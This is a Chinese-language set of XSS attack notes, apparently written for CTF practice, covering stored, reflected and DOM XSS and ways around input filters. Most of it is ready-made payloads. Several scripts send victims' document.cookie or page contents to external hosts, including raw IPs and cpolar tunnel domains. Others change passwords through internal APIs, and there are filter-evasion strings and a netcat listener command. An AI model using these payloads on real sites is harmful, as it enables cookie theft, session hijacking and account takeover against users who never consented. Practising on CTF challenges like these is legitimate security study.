

[XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=register)
[xsshs.cn](https://xsshs.cn/)

nc -lvp 9999    //使用nc监听4444端口

python3 -m http.server 9999

http://8.130.20.254/
### 存储型
存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie

### 反射型
非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息

### DOM型
不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS

## 常用语句
<script>alert("1")</script>

'onclick='javascript:alert(1)' ('onclick=javascript:alert(1)//)：作为元素对象属性
onfocus
onblur

"><a href='javascript:alert(1)'>xss</a>//

# 外带
```
攻击者通常会利用已经存在的 XSS 漏洞，在受害者的浏览器上注入恶意代码，并将受害者的 Cookie 数据上传到攻击者控制的服务器上，然后攻击者就可以使用该 Cookie 来`冒充受害者`，执行一些恶意操作，例如盗取用户的账户信息、发起钓鱼攻击等。

<script>
var img=document.createElement("img"); img.src="http://118.31.168.198:39543/"+document.cookie;
</script>


<script>window.open('https://7dc5fa72.r7.cpolar.top/platform/?cookie='+document.cookie)</script>

<script>location.href='http://185313a9.r1.cpolar.top/platform/'+document.cookie</script>

<svg onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<iframe onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)"></iframe>

<body onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<body οnlοad="window.location.href='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie"></body>

<BODY ONLOAD=document.location='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie;>


（需根据实际情况增加?cookie=",因为需要传参正确）


以上为获取cookie

<script>window.open('https://185313a9.r1.cpolar.top/platform/?'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

<script>$('.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctf'+'show{')>-1){
        window.location.href='http://ip/a.php?cookie='+value.innerHTML; 
    }
});</script>

<script>
var img = new Image();
img.src = "http://your-domain/cookie.php?cookie="+document.querySelector('#top > div.layui-container > div    :nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;//问了师傅才知道这个标签是可以通过浏览器找到的，ttttqqqqll
document.body.append(img);
</script>


还有innerHTML和outerHTML的区别
1）innerHTML:
　　从对象的起始位置到终止位置的全部内容,不包括Html标签。
2）outerHTML:
　　除了包含innerHTML的全部内容外, 还包含对象标签本身。

```

# 存储型
```
注意：有些时候网页收到污染就无法继续进行，

通过外带获得Cookie，然后进行admin伪造，从而获得管理员权限

抓取到cookie会立刻失效，于是我们需要获得网页的内容

当有修改密码或其他操作时，可以考虑内网SSRF，

例：
修改密码时的url为/api/change.php?p=123，而修改的账户已经完成了登录，所以可以直接修改

于是可以用下面的payload进行修改密码：

<script>window.location.href='http://127.0.0.1/api/change.php?p=密码';</script>（GET）

POST：
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123',a:1}});</script>

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=1234567');</script>

```

# 常见过滤手段

**空格过滤**
```
可用
TAB（拿%09的url解码得到的TAB来过滤,或者直接用tab键）
/
/**/

xss这个词有时候也会被过滤
```


#### 直接用"><script>alert("1")</script>构造闭合


看到使用了htmlspecialchars方法，htmlspecialchars是将特殊符号转换成HTML实体。HTML为了防止特殊符号，如 "<"等html当成标签<br>
这时候我们的思路就尽量要绕开使用新标签，那么浏览器还有一些事件可以执行js代码，如onfocus，onblur，(onclick)但是这两个是属于输入框在光标进入/离开时调用后面的js代码<br>
且需要闭合前面的单引号（也有可能是双引号)


可以使用a标签来绕过

### 大小写绕过
strtolower():将全部换为小写，无法使用大小写绕过

### 双写绕过

因过滤成“”，所以可以使用双写绕过
" oonnfocus=javascscriptript:alert('xss')//
"><scscriptript>alert("xss")</scscriptript>//
"> <a hhrefref=javascscriptript:alert('xss')>xss</a>//

### Unicode编码绕过

href在调用openurl传参时会自动进行unicode解码
javascript:alert(1)
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#10;

### hidden绕过
用于没有输入框情况，把原来的hidden类型改为text类型，从而实现添加属性
t_link=" type='text'>//&t_history=" type='text'>//&t_sort=" type='text'>//
t_sort=" type='text' onclick='javascript:alert(1)'//

## referer绕过


打开网站后，发现t_ref中内容为上一个网站的内容，于是想到使用referer伪造

## 获取cookie

```javascript
#">
```
